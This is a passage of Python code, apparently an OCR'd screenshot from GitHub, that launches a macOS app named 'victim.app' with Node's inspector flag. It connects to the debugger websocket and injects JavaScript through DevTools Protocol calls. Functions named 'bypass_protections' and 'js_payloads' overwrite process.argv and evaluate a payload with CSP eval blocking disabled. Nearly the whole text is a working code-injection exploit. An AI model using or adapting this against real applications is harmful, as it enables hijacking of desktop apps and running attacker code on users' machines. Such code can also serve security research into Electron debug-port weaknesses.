 ```python
    os.system("open /Applications/victim.app --args --inspect-brk")

async def bypass_protections():
    global CONTEXT_ID, NAME, UNIQUE_ID
    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        
        sleep(1)

        await send_cmd(ws, "Debugger.enable", {"maxScriptsCacheSize": 10000000})

        await send_cmd(ws, "Profiler.enable")

        await send_cmd(ws, "Debugger.setBlackboxPatterns", {"patterns": ["/node_modules/|/browser_components/"], "skipAnonnymous": False})

        await send_cmd(ws, "Runtime.runIfWaitingForDebugger")

        await send_cmd(ws, "Runtime.executionContextCreated", get_first=False, params={"context": {"id": CONTEXT_ID, "origin": "", "name": NAME, "uniqueId": UNIQUE_ID, "auxData": {"isDefault": True}}})

        code_to_inject = """process['argv'] = ['/Applications/victim.app/Contents/MacOS/victim']"""
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression": code_to_inject, "uniqueContextId":UNIQUE_ID})
        print("Injected code to bypass protections")


async def js_payloads():
    global CONT, CONTEXT_ID, NAME, UNIQUE_ID

    print(f"Connecting to {INSPECT_URL} ...")

    async with websockets.connect(INSPECT_URL) as ws:
        data = await send_cmd(ws, "Runtime.enable", get_first=True)
        CONTEXT_ID = data["params"]["context"]["id"]
        NAME = data["params"]["context"]["name"]
        UNIQUE_ID = data["params"]["context"]["uniqueId"]
        await send_cmd(ws, "Runtime.compileScript", get_first=False, params={"expression":JS_PAYLOADS,"sourceURL":"","persistScript":False,"executionContextId":1})
        await send_cmd(ws, "Runtime.evaluate", get_first=False, params={"expression":JS_PAYLOADS,"objectGroup":"console","includeCommandLineAPI":True,"silent":False,"returnByValue":False,"generatePreview":True,"userGesture":False,"awaitPromise":False,"replMode":True,"allowUnsafeEvalBlockedByCSP":True,"uniqueContextId":UNIQUE_ID})



async def main():
    await monitor_victim()
    sleep(3)
    await get_debugger_url()
    await bypass_protections()

    sleep(7)

    await js_payloads()
    

```